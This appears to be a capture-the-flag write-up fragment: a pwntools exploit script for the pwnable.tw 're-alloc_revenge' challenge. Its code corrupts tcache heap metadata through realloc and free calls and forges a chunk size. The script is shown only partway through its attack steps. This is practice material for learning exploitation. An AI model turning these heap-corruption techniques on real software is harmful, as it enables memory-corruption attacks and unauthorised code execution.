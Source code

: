 
### Exploit
```py
from pwn import *

exe = ELF("./re-alloc_revenge_patched")
libc = ELF("./libc-9bb401974abeef59efcdd0ae35c5fc0ce63d3e7b.so")
ld = ELF("./ld-2.29.so")

context.binary = exe
context.log_level = "debug"
# context.aslr = False

def conn():
    if args.LOCAL:
        r = process([exe.path])
        # r = gdb.debug ([exe.path], "b *main")
        # r = gdb.debug ([exe.path], "b *__libc_start_main+214")
    else:
        r = remote("chall.pwnable.tw", 10310)

    return r

def alloc (p, id, size, content):
    p.sendlineafter (b'Your choice: ', b'1')
    p.sendafter (b'Index:', id)
    p.sendafter (b'Size:', size)
    p.sendafter (b'Data:', content)

def realloc (p, id, size, content):
    p.sendlineafter (b'Your choice: ', b'2')
    p.sendafter (b'Index:', id)
    p.sendafter (b'Size:', size)
    if size != b'0':
        p.sendafter (b'Data:', content)

def free (p, id):
    p.sendlineafter (b'Your choice: ', b'3')
    p.sendafter (b'Index:', id)


def main():
    p = conn()

    # Setup tcache
    alloc (p, b'0', b'50', b'ndd1')
    alloc (p, b'1', b'50', p64 (0) * 3 + p64 (0x461))
    free (p, b'0')
    realloc (p, b'1', b'0', b'')
    realloc (p, b'1', b'50', b'\xc0')

    # Free chunk 1
    alloc (p, b'0', b'50', b'1111')
    realloc (p, b'1', b'60', b'ndd123')
    free (p, b'1')  
    

    realloc (p, b'0', b'80', b'\x00' * 16)
    realloc (p, b'0', b'0', b'')
    realloc (p, b'0', b'80', b'\x00' * 16)
    free (p, b'0')

    alloc (p, b'0', b'50', b'2222')
```